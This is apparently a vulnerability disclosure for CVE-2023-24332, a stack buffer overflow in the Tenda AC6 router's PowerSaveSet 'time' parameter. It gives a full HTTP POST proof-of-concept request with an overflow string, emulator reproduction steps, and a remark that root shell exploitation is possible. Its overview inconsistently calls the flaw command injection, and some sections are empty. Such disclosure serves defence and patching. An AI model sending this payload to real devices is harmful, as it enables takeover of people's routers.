

# Tenda AC6 路由器存在缓冲区溢出漏洞 - CVE-2023-24332

## 概述

A command injection vulnerability was discovered in the Tenda AC6 firmware version US_AC6V5.0re_V03.03.02.01_cn_TDC01, allowing remote attackers to execute arbitrary commands on the device.

Vendor/Product: Tenda AC6 (US_AC6V5.0re_V03.03.02.01_cn_TDC01)

Vulnerability Type: Remote Command Execution

Impact: Code execution, Escalation of Privileges

Discoverer: caoyebo

• 厂商信息：https://www.tenda.com.cn/profile/contact.html

• 固件下载地址：https://www.tenda.com.cn/download/detail-3376.html

## 1. 影响版本


## 2.漏洞详细信息



Impact: Code execution, Escalation of Privileges

程序通过获取time参数的内容传递给v13，之后通过sscanf函数将正则表达式匹配到的内容格式化到v10,v9,v8,v7的栈中，没有判断大小存在栈溢出漏洞

四个参数均可控，存在栈溢出

分别为 开始时间 时:分 - 结束时间 时:分

## POC

```python
POST /goform/PowerSaveSet HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1075
Origin: <http://192.168.1.1>
Connection: close
Referer: <http://192.168.1.1/sleep_mode.html?random=0.37181955385666365&>
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcmik1qw

powerSavingEn=1&time=00aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaeaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae%3A00-01%3A00&ledCloseType=allClose&powerSaveDelay=1
```

## 复现结果如下

为了重现该漏洞，可遵循以下步骤
1.使用fat 仿真固件US_AC6V5.0re_V03.03.02.01_cn_TDC01.bin
2.使用以下poc进行攻击

 

 

图2 POC的攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

 

 